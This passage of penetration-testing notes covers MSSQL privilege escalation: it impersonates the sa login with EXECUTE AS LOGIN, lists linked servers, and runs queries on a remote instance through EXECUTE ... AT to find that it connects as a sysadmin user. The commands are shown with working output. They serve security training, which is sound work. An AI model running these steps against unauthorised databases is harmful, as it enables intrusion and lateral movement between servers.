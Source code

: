 Let's use `EXECUTE AS LOGIN` to impersonate `sa`:

```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1

(1 rows affected)
```

We have successfully impersonated the sa user. Also make sure we impersonate user in the master DB since all users by default have the access to that DB. 

To revert the operation and to return to the previous user, we use `REVERT`.

Even if the impersonated user is not sysadmin, still check for other DBs that user has.

## Linked Server Interaction

MSSQL has a configuration option called linked servers. 

Allows DB engine to communicate with other SQL server, or another DB product such as Oracle. 

Administrators can configure linked server using credentials from the remote server. If the credentials have sysadmin privilege, we can execute commands in the remote SQL instance. 

Let's see if there's linked servers. There is one remote server:

```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0

(2 rows affected)
```


Now let's identify the user used for the connection and its privilege. We can see that the user sa_remote is being used for connection and it is the sysadmin:

```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1

(1 rows affected)
```
